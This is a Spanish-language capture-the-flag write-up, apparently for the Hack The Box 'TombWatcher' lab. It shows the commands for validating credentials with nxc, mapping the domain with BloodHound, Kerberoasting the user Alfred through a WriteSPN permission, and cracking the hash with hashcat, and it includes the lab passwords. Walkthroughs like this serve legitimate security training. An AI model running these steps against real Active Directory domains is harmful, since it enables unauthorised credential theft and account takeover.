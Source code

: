 # Recoleccion de informacion

primero vamos a validar las credenciales inciales

>>> SMB
```bash
nxc smb DC01.tombwatcher.htb -u 'henry' -p 'H3nry_987TGV!' --shares
```

<img width="1895" height="252" alt="image" src="https://github.com/user-attachments/assets/69a2cdb6-bcdb-4630-a013-ea82f7e90750" />


>>> LDAP
```bash
nxc ldap DC01.tombwatcher.htb -u 'henry' -p 'H3nry_987TGV!'
```

<img width="1895" height="108" alt="image" src="https://github.com/user-attachments/assets/3dd34a51-287b-457a-ab0b-89585f1c929d" />


ya que vemos son correctas esas credenciales, vamos a extraer informacion con `bloodhound-python`

```bash
bloodhound-python -u 'henry' -p 'H3nry_987TGV!' -d tombwatcher.htb -ns 10.10.11.72 -c ALl --zip
```

<img width="1895" height="398" alt="image" src="https://github.com/user-attachments/assets/d3d3deae-ca44-49e5-9e33-70170fb798b3" />

ahora exportamos el archivo `zip` a `bloodhound`

<img width="1895" height="1012" alt="image" src="https://github.com/user-attachments/assets/a1fdd378-67e0-4ebe-882e-31445bd0d9ab" />

como se observa, tenemos el permiso `WriteSPN` sobre el usuario `Alfred` asi que podemos abusar de este permiso para un ataque `Kerberoasting`

```bash
targetedKerberoast -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!' -f hashcat
```

<img width="1895" height="384" alt="image" src="https://github.com/user-attachments/assets/8e29aa41-2312-4b2c-b08e-d5bef737ba91" />


Guardamos el hash en un archivo y lo intentamos crackear con `hashcat`

```bash
hashcat -m 13100 -a 0 -w 4 -d 1 hash.txt /usr/share/wordlists/rockyou.txt
```
>>> Omitir los parametros -w y -d ya que son para usar mi GPU durante el crackeo

<img width="1895" height="1048" alt="image" src="https://github.com/user-attachments/assets/aad50395-020d-4e43-a526-866bfe9d04aa" />

>>> Crednciales {Alfred:basketball}

obtenemos la password asi que testeamos via smb y ldap

<img width="1895" height="353" alt="image" src="https://github.com/user-attachments/assets/5ee6d93e-e9a7-4176-a19f-b633facd8485" />

>>> credenciales validas y funcionales
